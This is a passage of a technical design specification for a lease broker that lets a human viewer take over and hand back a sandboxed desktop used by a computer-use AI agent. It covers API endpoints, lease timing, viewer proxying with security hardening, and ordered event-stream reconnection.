| `POST /v1/lease/release` | `{ leaseId\|sessionId?, leaseToken\|sessionSecret\|token?, handBack?: bool, force?: bool }` | Releases the active lease. When releasing a `human` lease with `handBack: true` and a live `preempted` agent exists, restores the agent lease (same `sessionId` + `sessionSecret`, 30 s `reservedUntil` grace, 90 s TTL), bumps `epoch`, emits `hand_back`, and returns `200 { ok: true, state: "agent", epoch, lease, handedBackTo: { sessionId, label, expiresAt, reservedUntil } }`. Otherwise returns `200 { ok: true, state: "idle", epoch, released, handedBackTo: null }` (and emits `seat_idle`). |
| `POST /v1/lease/attention` | `{ sessionId\|leaseId?, sessionSecret\|token?, waiting: bool, reason?, force?: bool }` | Toggles active agent seat between `"waiting_for_human"` and `"agent"` without changing `epoch`; emits `attention_needed` + `lease_changed`. |
| `POST /v1/viewer/ticket` | `{ mode: "view-only" \| "interactive", leaseId?, leaseToken?, ttlSec?, principalId?, principalName? }` | `view-only` always succeeds without a lease (`VIEW_ONLY=1`, default 3600 s). `interactive` requires active `human` `leaseId` + `leaseToken` (`403 human_lease_required` otherwise; `ALLOW_ACTIVATION=3`, default 1800 s). Returns `200 { ok: true, epoch, mode, ticket, path: "/viewer/#ticket=...", ttlSec, expiresAt, upstream: "http://127.0.0.1:3211" }`. |
| `GET /v1/audit` | `?limit=100&sessionId=...` | `200 { ok: true, entries: [...] }` — sanitized NDJSON audit records (typed text/secret arguments redacted; never contains tokens or viewer tickets). |

### 8.4 Lease Semantics & `omp` Integration

- **Agent lease:** Default **90 s TTL**, **20 s heartbeat** (`heartbeatIntervalSec: 20`), 60 min hard cap, dead `(pid, pidStartTime)` reaped in ≤5 s (2 s reaper interval). Every authorized MCP tool call also refreshes `expiresAt`.
- **Human lease:** Default **10 min (600 s) TTL**, renewed by the viewer every **60 s** (`POST /v1/lease/heartbeat`) while open, 4 h hard cap (up to 8 h for SSH `cu-viewer-ticket`). Closing the viewer without Hand Back expires cleanly after 10 min.
- **Preemption & resume:**
  - When `pi-dish` spawns `omp` on a `computerUse` host (Slice 2), call `POST /v1/lease/acquire` first (surfacing `409 seat_busy` before spawning `omp`), then pass `CU_BROKER_SESSION_ID`, `CU_BROKER_SESSION_SECRET`, and `CU_BROKER_LABEL` in the `omp` environment.
  - Subscribe to `GET /v1/events`: on `preempted`, call `abort()` on the displaced `omp` session; on `hand_back`, send the resume prompt to `handedBackTo.sessionId`. Because `cua-driver-mcp` keeps its stdio pipe to `omp` open across preemption, the same `omp` session resumes seamlessly with zero context loss.
  - Note: even before Slice 2 hooks land in `pi-dish`, `cua-driver-mcp` auto-acquires an agent lease on its first `tools/call` (binding to its parent `omp` PID), heartbeats every 20 s, enforces preemption/hand-back, and releases on exit.

### 8.5 Viewer Proxy Requirements for `pi-dish`

1. **Recommended route prefix:** Mount the raw `cua-spacesd` (`http://127.0.0.1:3211`) reverse proxy at `/api/cu/spaces/*` on guest `pi-dish` (registered **before** `jsonBody` and `compression`), so the iframe URL on `beelink` is `/hosts/cu-sandbox/api/cu/spaces/viewer/#ticket=<ticket>`.
   - `viewer.js` automatically strips `viewer/` to compute `baseUrl = /hosts/cu-sandbox/api/cu/spaces/`, sending gRPC-Web POSTs to `/hosts/cu-sandbox/api/cu/spaces/cua.env.v1.*` and WebSockets to `wss://.../hosts/cu-sandbox/api/cu/spaces/media?ticket=...`. No URL-rewriting shim is needed.
2. **CSP header rewrite:** On `/api/cu/spaces/viewer/*` responses, replace `frame-ancestors 'none'` with `frame-ancestors 'self'` in `Content-Security-Policy` so the viewer renders inside `pi-dish`'s iframe.
3. **Cloudflare Access `fetch` credentials shim:** On `/api/cu/spaces/viewer/` HTML responses, inject `<script src="./cu-fetch-creds.js"></script>` before `./viewer.js` and serve `/api/cu/spaces/viewer/cu-fetch-creds.js`:
   ```js
   (() => {
     const orig = globalThis.fetch.bind(globalThis);
     globalThis.fetch = (input, init) => {
       try {
         const url = new URL(typeof input === 'string' ? input : input.url, location.href);
         if (url.origin === location.origin && init && init.credentials === 'omit') {
           init = { ...init, credentials: 'same-origin' };
         }
       } catch {}
       return orig(input, init);
     };
   })();
   ```
   Because this is an external same-origin script, it satisfies `cua-spacesd`'s strict `script-src 'self' 'wasm-unsafe-eval'` CSP while ensuring `CF_Authorization` is sent on same-origin gRPC-Web POSTs over `dish.*`.
4. **WebSocket upgrade proxy (`beelink` + guest):**
   - On `beelink` (`src/core/relay-handlers.ts`): extend `upgrade` to match `^/hosts/([^/]+)/api/cu/spaces/` alongside `PROXY_TERMINAL_PATH_RE`.
   - Forward `Sec-WebSocket-Protocol` in both directions (`viewer.js` requires subprotocol `rcdp.v2`).
   - Send WebSocket `ping` every 30 s to avoid Cloudflare Tunnel idle timeouts.
5. **Interactive revocation on release/hand-back:** Guest `pi-dish` should tag interactive viewer WebSockets with the `human` lease `epoch` (e.g., via query param or tracking interactive connections against `/v1/events`) and immediately close interactive `/media` WebSockets whenever `cu-broker` leaves that `human` epoch, while the browser UI reloads the iframe with a fresh `view-only` ticket.
6. **Guest `pi-dish` HTTP routes to expose to the browser (relayed automatically through `/hosts/cu-sandbox/api/cu/*`):**
   - `GET /api/cu/status` → `control.sock GET /v1/status`
   - `GET /api/cu/stream` → `control.sock GET /v1/events` (SSE, excluded from compression)
   - `POST /api/cu/takeover` → `control.sock POST /v1/lease/takeover` (rewrite `viewer.path` prefix to `/api/cu/spaces` or let client prepend base)
   - `POST /api/cu/heartbeat` → `control.sock POST /v1/lease/heartbeat`
   - `POST /api/cu/release` → `control.sock POST /v1/lease/release`
   - `POST /api/cu/viewer/ticket` → `control.sock POST /v1/viewer/ticket`
   - `GET /api/cu/audit` → `control.sock GET /v1/audit`
   - `ALL /api/cu/spaces/*` (+ WS upgrade) → `http://127.0.0.1:3211/*` (with CSP rewrite + `cu-fetch-creds.js` injection)

### 8.6 Slice 1 `pi-dish` Implementation Notes (`feat/cu-viewer`)

What Slice 1 implemented on the `pi-dish` side (leaving Slice 2 session-spawn lease acquisition, `CU_BROKER_*` env injection, `preempted` abort, and `hand_back` resume out of scope):

- **Gating:** Activated strictly when `PI_DISH_CU_BROKER_SOCKET` is set and resolves to an existing Unix socket (`src/core/cu-broker.ts`); no `$XDG_RUNTIME_DIR` fallback is probed when unset, so non-CU hosts omit `capabilities.computerUse` and return `404` on `/api/cu/*` HTTP and WebSocket routes.
- **Vendored viewer assets (no guest-supplied JS in dish origin):** Pinned `cua-spacesd v0.17.7` HTML5 viewer assets (`index.html`, `index.css`, `viewer.js`, `audioWorklet.js`, `captureWorklet.js`, plus `LICENSE` FSL-1.1-MIT and `UPSTREAM.txt` SHA-256 checksums) are vendored under `vendor/cua-viewer/` and served directly by the `pi-dish` instance the browser talks to (hub `/hosts/:name/api/cu/spaces/viewer/*` or direct local CU host `/api/cu/spaces/viewer/*`) with strict CSP (`connect-src 'self'`, `frame-ancestors 'self'`, `base-uri 'none'`, `form-action 'none'`), `X-Frame-Options: SAMEORIGIN`, `Referrer-Policy: no-referrer`, and static `./cu-fetch-creds.js` injected before `./viewer.js`. Two small marked local patches in `vendor/cua-viewer/viewer.js` (recorded in `UPSTREAM.txt`) validate `principal.color` against `/^#[0-9a-f]{3,8}$/i` before any `innerHTML` interpolation and constrain `mediaSocketUrl` (`wsPath`) to the selected relay's origin and exact `/media` pathname. Guest-side `/viewer/*`, `/files`, `/share/*`, `FilesystemService`, `ProcessService`, and other non-viewer Spaces routes are not allowlisted and return `404` at both hub and guest.
- **Allowlisted Spaces proxy, hub response filtering & header scrubbing:** Both hub (`src/core/relay-handlers.ts`) and guest (`src/core/cu-handlers.ts`) allowlist only the gRPC-Web RPCs required by the viewer (`SystemService.GetCapabilities`, `StreamService.{ListTargets,OpenMedia,SetPreferences,RequestKeyframe,CloseMedia}`, `PresenceService.{Join,UpdateCursor,Leave}`, interactive-only `ComputerService.{GetClipboard,SetClipboard}`) and WebSocket `/media`. Hub `/hosts/:name/api/cu/*` HTTP and WS relays allowlist outbound headers (stripping `Cookie`, `Cf-Access-*`, `Authorization`, `Origin`, and `Connection`-nominated headers before attaching peer bearer separately), forward validated JSON mutation text verbatim without re-serializing, enforce the expected response `Content-Type` per route (JSON, SSE, or gRPC-Web), reject redirects and unexpected content types (`502`), set `X-Content-Type-Options: nosniff`, and allowlist response headers including on `101 Switching Protocols`.
- **CSRF protection on lease mutations:** `POST` CU mutations (`takeover`, `heartbeat`, `release`, `viewer/ticket`) require `Content-Type: application/json`, a parsed JSON object body, and same-origin browser `Origin` / `Sec-Fetch-Site` validation (`src/core/access-handlers.ts`, reusing `PI_DISH_PUBLIC_ORIGINS` and `http(s)://${Host}`) enforced at hub ingress (before relay strips `Origin`) and on direct routes.
- **Authority + close-all revocation & display-only OpenMedia gate:** Guest `pi-dish` tracks every viewer ticket it mints through `cu-broker` (`ticket -> { mode, epoch, expiresAtMs }`, pruned on expiry and capped at 512 entries), parses `StreamService.OpenMedia` gRPC-Web requests (`grpc-web+proto` and `grpc-web-text+proto`) before forwarding to `127.0.0.1:3211` — forwarding ONLY display targets (`MediaTarget.display_id`, never window targets) with observe-only/absent `geometry_control` (`0` or `1`) across every ticket mode and refusing all other or unparseable requests with `403` without dialing upstream — and intercepts `OpenMediaResponse` (`stream.proto` field 2 `ticket`, field 3 `ticket_expires_at`, field 4 `ws_path`) to record each resulting media ticket with the authenticating viewer ticket's mode and epoch. Both `StreamService.OpenMedia` and `/media` WebSocket upgrades (checking `?ticket=` as well as `cua.ticket.*` / `rcdp.v2.ticket.*` subprotocols) refuse unknown, expired, or superseded-epoch credentials (`403`, failing closed after a restart so the browser remints); interactive credentials require a synced broker watch in `state === 'human'` matching the current `epoch`, while view-only credentials only need to be recorded and unexpired. On any accepted human-epoch end (release, hand back, preempt, epoch change) or broker watch loss, interactive viewer/media entries are dropped and every proxied `/media` socket (`4001`), pending upgrade, and in-flight Spaces HTTP request is closed; stale release replies from older epochs are ignored without revoking newer sessions. If `cu-broker` commits a takeover just as the event watch drops, guest `pi-dish` compensates immediately by handing back with the returned lease credentials before returning `503`.
- **WebSocket hardening, deadlines & bounded SSE buffers:** Downstream WS handshakes are validated (method, `Upgrade`, `Connection`, `Sec-WebSocket-Key`, version `13`, and deduplicated `Sec-WebSocket-Protocol` tokens) before dialing upstream, constructor throws are contained to the request, and early-close cleanup stays owned across `handleUpgrade` until both sides are admitted. Bidirectional `bufferedAmount` backpressure (4 MiB ceiling) and missed-pong eviction (30 s keepalive) terminate slow/dead pairs. Deadlines nest strictly outward (`broker 8s < guest spaces 10s < hub relay 15s < browser 25s`), and SSE error bodies (64 KiB) and watcher event buffers (256 KiB) are bounded.
- **UI, transport gating & skew safety:** Implemented as a main-pane takeover (`src/browser/cu-viewer.ts`) reachable at phone width (`390×844`) and desktop from Fleet cards and `#sessionChips`, offered only on self (`""`) or a canonical `/hosts/<name>` hub relay with no client bearer token (rejecting cross-origin and network-path `//...` URLs). Iframe URLs are constructed exclusively from the known relay base, fixed `/api/cu/spaces/viewer/`, and encoded ticket (ignoring guest-supplied `path`/`spacesPath`). Only **Take Over** and **Hand Back** (always sending `handBack: true`) are exposed — **Release Seat**, **Force Take Over**, and **Detach driver** are omitted. Browser status updates apply monotonically by `epoch`, `open`/`loadStatus` decide from accepted controller state so delayed initial status replies cannot undo Take Over, ticket loads are sequenced, and SSE errors close and remint a fresh stream ticket on reconnect. Static HTML stays skew-safe in both directions.

#### Deferred Follow-ups (Post-Slice-1)

- **gRPC-Web text flush-boundary base64 & compressed trailers** (round-3 #2): handle independent base64 padding at flush boundaries in `application/grpc-web-text` streams and explicitly reject compressed trailer frames (`flags & 0x81 === 0x81`) instead of treating them as plain text.
- **Takeover watch-drop compensation retry & deadline budget** (round-3 #3): retain release-only recovery credentials when watch-drop hand-back fails so the seat does not wait for the 10-minute lease TTL, and budget the sequential takeover + compensation broker timeouts (currently two 8 s calls) within the hub's 15 s response deadline.

- **Premature downstream HTTP close cleanup** (remainder of round-2 #7): destroy still-pending upstream Spaces HTTP requests before unregistering on premature downstream close.
- **Broker watcher framing & liveness hardening** (round-2 #8): count empty `data:` line framing against the watcher event budget, verify the actual `event: hello` name for authoritative sync, add an inactivity/keepalive timeout to rearm silent hung watches, and prune timed-out sync waiters immediately.
- **Direct mutation zero-byte chunked body check** (round-2 #9b): check decoded byte presence before `express.json()` substitutes `{}` on a zero-byte chunked request body.
- **Route/host-scoped stream tickets & dedicated CU upgrade ingress check** (round-1 #8 remainder): scope `/api/auth/ticket` stream tickets to the specific route/host at ingress, strip the ticket query parameter before forwarding to the peer, and add a dedicated CU upgrade authorizer at the hub instead of sharing the terminal upgrade authorizer.
- **Retain in-flight takeover result across pane switches** (round-1 #10 remainder): persist a successful takeover lease returned after closing or switching away from the Desktop pane against its captured host without rendering into the active view.
- **Request-byte caps on raw Spaces streaming POSTs** (round-1 #12 remainder): enforce per-RPC streaming byte limits on raw `/api/cu/spaces/*` POST request bodies.
- **Orderly shutdown ordering** (round-1 #13): track public broker SSE streams and pending handshakes alongside active media sockets and tear them down before waiting for HTTP listener drain on shutdown.

#### Step A — Session Desktop Panel & Session-List Cue (`feat/cu-session-panel`)

- **View-only in-session panel (`src/browser/cu-session-panel.ts`):** For sessions on a host advertising `capabilities.computerUse` over a supported transport (`""` or canonical `/hosts/<name>` with no bearer token), `#sessionView` dynamically mounts a collapsible **Desktop** panel (closed by default, open/closed persisted per session in `sessionStorage`, stacked above `.input-area` on phone width and side-by-side on desktop). The panel is **strictly view-only** in Step A: it never acquires, heartbeats, or releases a lease and renders no Hand Back control. Clicking **Take Over** opens the existing standalone Desktop pane (`#cuViewerView`, Slice-1 control flow) and hides the panel iframe without touching leases; all human control lives in the standalone pane.
- **Shared display-only per-host SSE stream & session-list cue:** Sidebar seat cues (`desktop: agent`, `desktop: waiting`, `desktop: human`, `desktop: you`) and the view-only session panel share one `/api/cu/stream` subscription per CU host while that host has emitted visible sidebar rows (`visibleHostIds` derived from emitted rows in `src/browser/sidebar-render.ts`) or an open panel. The standalone Desktop pane keeps its own Slice-1 stream and lease lifecycle untouched (`src/browser/cu-viewer.ts`). On SSE disconnect (`onerror`), display state and seat cues clear to unknown/stale and restore on a fresh snapshot or authoritative reconnect `hello` (which also reissues a discarded view-only panel viewer ticket if the panel still needs one).

#### Deferred Follow-ups (Step A — Session Desktop Panel)

- **In-panel human control (deferred pending lease-owner rework):** Interactive Take Over / Hand Back directly inside the collapsible session panel is deferred out of Step A so the browser can never hold a human lease behind a hidden Hand Back control. Any future lease-owner rework supporting interactive control across collapsible/occludable surfaces must address all four race findings observed during Step A round-2 review:
  1. A failed automatic release (e.g. `503`) dropping the only lease token while Hand Back is hidden, stranding the seat until TTL expiry.
  2. A delayed initial status `GET` returning `null`/error deleting a valid takeover grant.
  3. A reconnect `hello` arriving after a newer takeover grant erasing the grant.
  4. A late release reply arriving after a host entry was torn down and recreated (same `connGen = 1`) erasing a different, newer lease.
- **Host removal retiring the standalone pane:** Pre-existing Slice-1 behavior; retiring `#cuViewerView` when its host disappears from `/api/hosts` is tracked separately from Step A.
- **Mobile swipe gutter over desktop viewer iframe** (step-A #8): reserve a narrow parent-owned swipe gutter over the configured edge-handle zone so left-edge drawer swipes work over the embedded viewer iframe without intercepting the rest of the desktop.
- **Keep session panel open on same-session transcript reload** (step-A #9): distinguish a forced same-session transcript reload (`forceTranscriptReload`) from explicit collapse/close so the stored open preference is reapplied on reload.

---

## 9. Slice 2 Broker Interface (`cu-broker` v1 / Slice 2 Additions)

This section specifies the exact Slice 2 additions to `cu-broker`, `cua-driver-mcp`, and `cu-seat` deployed on `cu-sandbox` by `fleet-config` (`ansible/roles/cu_guest/`). All Slice 1 endpoints and payloads in §8 remain backward-compatible.

### 9.1 Versioning, Capabilities & Ordering Identifiers

`cu-broker` keeps `"version": 1` for Slice 1 compatibility and adds:

- **`capabilities`**: `["bind", "cancel_preempted", "ordered_sse", "claim_handoff"]` on `GET /v1/health`, `GET /v1/status`, and SSE `hello`. `pi-dish` can feature-detect Slice 2 broker support via this array.
- **`generation`**: opaque non-empty string (`gen-<16 hex chars>`), newly generated on **every** `cu-broker` process start (never reused across restarts).
- **`cursor`**: monotonic non-negative integer starting at `0` on each broker start and incremented by `1` for every emitted SSE event under the broker state lock at commit time. Together, `(generation, cursor)` totally orders every transition and metadata update within a broker process lifetime.
- **`epoch`**: persisted monotonic seat-ownership counter (from §8). **`epoch` increments ONLY on seat ownership transitions** (`acquire`, `takeover`, `hand_back`, `release`, `expired`/`reaped`). Metadata and reservation updates (`bind`, `cancel-preempted`, `preempted_reaped`, `attention`, `claim-nonce`, `claim`) **never** increment `epoch` so active interactive human viewer tickets are never disrupted.

`generation` and `cursor` are included on `GET /v1/health`, `GET /v1/status`, all `/v1/lease/*` responses, and every SSE event payload.

### 9.2 Public `lease` and `preempted` Schema Additions

Additive fields on public `lease` objects (never exposing secrets or hashes):

```json
{
  "holderKind": "agent",
  "leaseId": "omp-spawn-...",
  "sessionId": "omp-spawn-...",
  "holderId": "omp-spawn-...",
  "ownerId": "~sk1_omp_abc123",
  "label": "~sk1_omp_abc123",
  "requestedBy": null,
  "reason": null,
  "pid": 12345,
  "pidStartTime": 9876543,
  "boundAt": "2026-11-25T15:00:01.234Z",
  "mcpClaimed": true,
  "claimedPid": 12378,
  "acquiredAt": "2026-11-25T15:00:00.000Z",
  "lastHeartbeatAt": "2026-11-25T15:00:20.000Z",
  "lastActivityAt": "2026-11-25T15:00:20.000Z",
  "ttlSec": 90,
  "expiresAt": "2026-11-25T15:01:50.000Z",
  "hardExpiresAt": "2026-11-25T16:00:00.000Z",
  "reservedUntil": null
}
```

Additive fields on public `preempted` objects:

```json
{
  "sessionId": "omp-spawn-...",
  "leaseId": "omp-spawn-...",
  "ownerId": "~sk1_omp_abc123",
  "label": "~sk1_omp_abc123",
  "requestedBy": null,
  "pid": 12345,
  "pidStartTime": 9876543,
  "boundAt": "2026-11-25T15:00:01.234Z",
  "mcpClaimed": true,
  "claimedPid": 12378,
  "preemptedAt": "2026-11-25T15:02:00.000Z",
  "hardExpiresAt": "2026-11-25T16:00:00.000Z"
}
```

All fields (`ownerId`, `label`, `pid`, `pidStartTime`, `boundAtMs`, `mcpTokenHash`, `claimedPeer`) are preserved across `takeover` (`lease` → `preempted`) and `hand_back` (`preempted` → `lease`). `POST /v1/lease/acquire` also accepts optional `ownerId` (stored as `null` when omitted) and keeps its Slice 1 idempotent refresh behavior unchanged (never mutating `ownerId`, `label`, or `pid`).

### 9.3 `POST /v1/lease/bind` — Authenticated Bind / Transfer

Control-side bind or ownership transfer of an existing agent lease. Valid while the agent lease is **active** (`state` is `"agent"` or `"waiting_for_human"`) **or displaced** (`state` is `"human"` and matching `preempted`).

- **Socket:** `control.sock` **only** (`agent.sock` returns `403 { ok: false, code: "forbidden" }`).
- **Auth:** `sessionId` (or `leaseId`) + `sessionSecret` (or `token`) verified in constant time against the matched agent record's `tokenHash`. (`mcpToken` is rejected.)
- **Request body:**
  ```json
  {
    "sessionId": "omp-spawn-...",
    "sessionSecret": "<control-plane sessionSecret>",
    "ownerId": "~sk1_omp_abc123",
    "label": "~sk1_omp_abc123",
    "pid": 12345,
    "pidStartTime": 9876543,
    "requestedBy": "optional",
    "expectedEpoch": 4
  }
  ```
  - At least one of `ownerId`, `label`, or `pid` must be supplied (`400 invalid_bind`).
  - `ownerId` (optional): opaque non-empty string (`1..160` chars, no ASCII control characters `\x00-\x1f`; else `400 invalid_owner_id`). When `ownerId` is provided and `label` is omitted, `label` is automatically updated to `ownerId`.
  - `label` (optional): non-empty string (`1..160` chars, no ASCII control characters; else `400 invalid_label`).
  - `pid` & `pidStartTime` (optional pair):
    - Supplying `pid` without `pidStartTime` returns `400 pid_start_time_required`. Supplying `pidStartTime` without `pid` returns `400 invalid_pid`.
    - `pid` must be an integer `> 1` (`400 invalid_pid`).
    - `pidStartTime` accepts an integer or base-10 digit string matching `/proc/<pid>/stat` field 22 (`starttime` in clock ticks; else `400 invalid_pid_start`).
    - Broker verifies `/proc/<pid>/stat` exists, process state is not dead/zombie (`Z`/`X`/`x`; else `400 pid_not_found`), `/proc/<pid>` UID equals the broker's UID (`403 pid_owner_mismatch`), and observed field 22 equals `pidStartTime` (`400 pid_mismatch`).
  - `expectedEpoch` (optional integer): if provided and `expectedEpoch !== epoch`, returns `409 epoch_mismatch` without mutating state.
- **State effects:**
  - Persists updated `ownerId`, `label`, `pid`, `pidStartTime`, `boundAtMs` (and `requestedBy` if supplied) atomically to `lease.json`.
  - If `(pid, pidStartTime)` changes to a new process birth: clears any previous `claimedPeer` / `mcpTokenHash`, binds any `pending_bind` claim nonce for this `sessionId` to the new `(pid, pidStartTime)`, and wakes any `POST /v1/lease/claim` waiter immediately.
  - Does **not** bump `epoch`.
  - Appends audit entry `"bound"` (`epoch`, `target`, `sessionId`, `ownerId`, `label`, `pid`, `pidStartTime`).
  - Increments `cursor` and emits ordered SSE `lease_changed` (`reason: "bound"`, `target: "active" | "displaced"`).
- **Success response (`200`):**
  ```json
  {
    "ok": true,
    "generation": "gen-...",
    "cursor": 12,
    "state": "agent | waiting_for_human | human",
    "epoch": 4,
    "target": "active | displaced",
    "lease": { ... },
    "preempted": { ... }
  }
  ```
- **Error responses:**
  - `400`: `invalid_json`, `invalid_bind`, `invalid_owner_id`, `invalid_label`, `invalid_pid`, `pid_start_time_required`, `invalid_pid_start`, `pid_not_found`, `pid_mismatch`.
  - `403`: `forbidden` (wrong socket, invalid `sessionSecret`, or `mcpToken` presented), `pid_owner_mismatch`.
  - `409`: `lease_not_found` (no matching active or displaced agent lease), `not_agent_lease` (matched a human lease), `epoch_mismatch`.

### 9.4 `POST /v1/lease/cancel-preempted` — Cancel Displaced Agent Only

Cancels **only** a displaced agent reservation (`preempted`) while leaving any active `human` lease completely untouched (same `state`, `epoch`, `lease`, and `expiresAt`).

- **Socket:** `control.sock` (credentials or `force: true`) or `agent.sock` (credentials only; `force: true` returns `403 forbidden`).
- **Auth:** `sessionId` (or `leaseId`) + `sessionSecret` (or `token`) verified against `preempted.tokenHash` (or `force: true` on `control.sock` only). `mcpToken` is rejected.
- **Request body:**
  ```json
  {
    "sessionId": "omp-spawn-...",
    "sessionSecret": "<control-plane sessionSecret>",
    "force": false
  }
  ```
- **Behavior:**
  - Runs reaping first.
  - If `preempted` exists:
    - Unless `force: true` on `control.sock`, credentials must match `preempted.sessionId`/`preempted.leaseId` and `preempted.tokenHash`; mismatches return `403 forbidden`.
    - Clears `preempted`, revokes and unlinks any pending claim nonce for that `sessionId`, persists `lease.json`, appends audit `"preempted_cancelled"`, increments `cursor`, and emits ordered SSE `lease_changed` (`reason: "preempted_cancelled"`, `cancelled: <public_preempted>`).
    - Does **not** alter `state`, `epoch`, or `lease`.
    - Returns `200`:
      ```json
      {
        "ok": true,
        "cancelled": true,
        "alreadyAbsent": false,
        "cancelledReservation": { ... },
        "generation": "gen-...",
        "cursor": 15,
        "state": "human",
        "epoch": 5,
        "lease": { ... },
        "preempted": null
      }
      ```
  - If `preempted` is `null`:
    - If not `force` and credentials match the **currently active** agent lease (`self.lease`), returns `409 { ok: false, code: "lease_active", generation, cursor, state, epoch, lease, preempted: null, message }`.
    - If not `force` and either `sessionId` or `sessionSecret` is missing, returns `400 { ok: false, code: "missing_credentials" }`.
    - Otherwise (reservation was already cancelled, reaped, or expired), returns idempotent `200 { ok: true, cancelled: false, alreadyAbsent: true, cancelledReservation: null, generation, cursor, state, epoch, lease, preempted: null }`.
- **Backward-compatible behavior on `POST /v1/lease/release`:**
  - If `force` is false and valid control-plane `sessionId` + `sessionSecret` match `preempted` (while `state === "human"`), `POST /v1/lease/release` cancels **only** `preempted` without touching the human lease and returns `200 { ok: true, generation, cursor, state: "human", epoch, lease, preempted: null, cancelledPreempted: true, cancelledReservation, handedBackTo: null }`. Callers that want strict displaced-only semantics (failing `409 lease_active` if hand-back raced ahead of cancel) should use `POST /v1/lease/cancel-preempted`.

### 9.5 Ordered SSE Reconnect (`GET /v1/events`)

Every SSE transition event is assigned a strictly increasing `cursor` and appended to an in-memory bounded ring buffer (`CU_BROKER_EVENT_HISTORY_SIZE`, default `512`) **under `broker._lock` at state-commit time** (before any out-of-lock driver termination or viewer ticket minting), guaranteeing total ordering of `(generation, cursor, epoch)` across all concurrent HTTP mutations.

#### Request Resume Parameters

Clients may resume via query parameters or the standard SSE header (query parameters take precedence):
- `GET /v1/events?generation=<gen>&cursor=<n>` (`after=<n>` accepted as alias for `cursor=<n>`). Non-integer or negative `cursor` returns `400 { ok: false, code: "invalid_cursor" }`.
- Or `Last-Event-ID: <generation>:<cursor>`.

#### Atomic Subscription & Strict Framing Order

1. Component health is sampled outside the state lock.
2. Under `broker._lock`, the broker reaps expired/dead leases, captures the atomic snapshot at `currentCursor`, determines the replay slice or resync reason, and registers the subscriber queue to receive **only** live events with `cursor > currentCursor`.
3. Frames are written to the connection in strict order:
   1. **`event: hello`** — **ALWAYS strictly first.**
      - `id:` is `<generation>:<currentCursor>` unless `resume.status === "replayed"`, in which case `id:` is omitted so automatic `Last-Event-ID` reconnects do not skip pending replay frames.
      - Payload is the full `/v1/status` object (`ok`, `version`, `capabilities`, `generation`, `cursor`, `state`, `epoch`, `lease`, `preempted`, `defaults`, `viewer`, `health`) plus `resume`:
        ```json
        {
          "status": "fresh | up_to_date | replayed | resync_required",
          "requestedGeneration": "gen-... | null",
          "requestedCursor": 7,
          "replayedCount": 3,
          "oldestAvailableCursor": 1,
          "resyncReason": null
        }
        ```
        - `fresh`: no resume cursor/header supplied.
        - `up_to_date`: `requestedGeneration === generation` and `requestedCursor === currentCursor`.
        - `replayed`: `requestedGeneration === generation`, `requestedCursor < currentCursor`, and all events `(requestedCursor + 1)..currentCursor` are present in the history buffer (`requestedCursor >= oldestAvailableCursor - 1`).
        - `resync_required`: any gap or mismatch, with `resyncReason` in:
          - `"generation_mismatch"` (broker restarted, or `cursor` passed without matching `generation`, or malformed `Last-Event-ID`),
          - `"cursor_too_old"` (`requestedCursor < oldestAvailableCursor - 1`, evicted from ring buffer),
          - `"cursor_ahead"` (`requestedCursor > currentCursor`).
   2. **If `resume.status === "resync_required"`:** immediately emit **`event: resync`** (`id: <generation>:<currentCursor>`):
      ```json
      {
        "generation": "gen-...",
        "cursor": 100,
        "reason": "generation_mismatch | cursor_too_old | cursor_ahead | subscriber_lagged",
        "requestedGeneration": "gen-old",
        "requestedCursor": 4,
        "oldestAvailableCursor": 50,
        "state": "agent",
        "epoch": 9,
        "lease": { ... },
        "preempted": null
      }
      ```
   3. **Else if `resume.status === "replayed"`:** immediately emit every missed event in strictly ascending cursor order (`requestedCursor + 1 .. currentCursor`), each with `id: <generation>:<evCursor>`, its original `event:` name (`lease_changed`, `preempted`, `hand_back`, `seat_idle`, `attention_needed`), and payload carrying `generation`, `cursor: evCursor`, and `"replayed": true`.
   4. **Live events:** strictly `cursor > currentCursor` in ascending cursor order, each with `id: <generation>:<evCursor>` and payload carrying `generation`, `cursor`, and `"replayed": false`.
   5. **Subscriber overflow (`subscriber_lagged`):** if a slow subscriber fills its in-memory queue (`128` frames), the broker does **not** silently drop events; it clears the stalled queue and emits an explicit **`event: resync`** with `reason: "subscriber_lagged"` and a fresh atomic snapshot at the current `(generation, cursor)` before resuming live delivery.

#### Complete SSE Event Catalog

| `event:` | `id:` | When emitted | Key payload fields |
|---|---|---|---|
| `hello` | `<gen>:<cursor>` (omitted while replaying) | Strictly first on every `/v1/events` connect | Full `/v1/status` + `generation`, `cursor`, `capabilities`, `resume` |
| `resync` | `<gen>:<cursor>` | Immediately after `hello` on gap/restart, or mid-stream on queue overflow | `generation`, `cursor`, `reason`, `oldestAvailableCursor`, `requestedGeneration`, `requestedCursor`, `state`, `epoch`, `lease`, `preempted` |
| `lease_changed` | `<gen>:<cursor>` | Every lease/binding/reservation state change | `generation`, `cursor`, `replayed`, `reason` (`acquired` \| `bound` \| `takeover` \| `hand_back` \| `released` \| `ttl_expired` \| `hard_cap_expired` \| `pid_dead` \| `attention_changed` \| `preempted_cancelled` \| `preempted_reaped`), plus optional `target`/`cancelled`/`reaped`, and snapshot (`state`, `epoch`, `lease`, `preempted`) |
| `preempted` | `<gen>:<cursor>` | Human takes over an active agent lease | `generation`, `cursor`, `replayed`, `sessionId`, `displaced`, and snapshot |
| `hand_back` | `<gen>:<cursor>` | Human releases with `handBack: true` to live displaced agent | `generation`, `cursor`, `replayed`, `handedBackTo`, and snapshot |
| `seat_idle` | `<gen>:<cursor>` | Seat returns to `idle` (release/expiry/reap) | `generation`, `cursor`, `replayed`, `reason`, `previous`, and snapshot |
| `attention_needed` | `<gen>:<cursor>` | Agent sets `waiting_for_human` | `generation`, `cursor`, `replayed`, `reason`, and snapshot |

### 9.6 State Persistence & Restart Reconciliation

`$XDG_RUNTIME_DIR/cu-broker/lease.json` (`0600`, atomic temp-file + `os.replace`; preserved across `cu-broker.service` restarts via `RuntimeDirectoryPreserve=yes` while remaining on tmpfs so reboots start clean) persists:
- `version`, `epoch`, `state`, `lease` (including `ownerId`, `pid`, `pidStartTime`, `boundAtMs`, `tokenHash`, `mcpTokenHash`, `claimedPeer`), `preempted` (same fields plus `preemptedAtMs`, `hardExpiresAtMs`).
- **Never persisted:** `generation` (fresh every start), `cursor` (starts at `0`), SSE history ring buffer, plaintext secrets/tokens, or pending claim nonces.

**Process liveness check (`pid_alive`):** reads `/proc/<pid>/stat` for both state (field 3) and `starttime` (field 22), plus `/proc/<pid>` UID ownership. A process is considered dead if `/proc/<pid>/stat` is missing, its state is zombie/dead (`Z`, `X`, `x`), its UID does not match the broker UID, or its `starttime` differs from `pidStartTime`.

**Startup reconciliation (executed before opening sockets):**
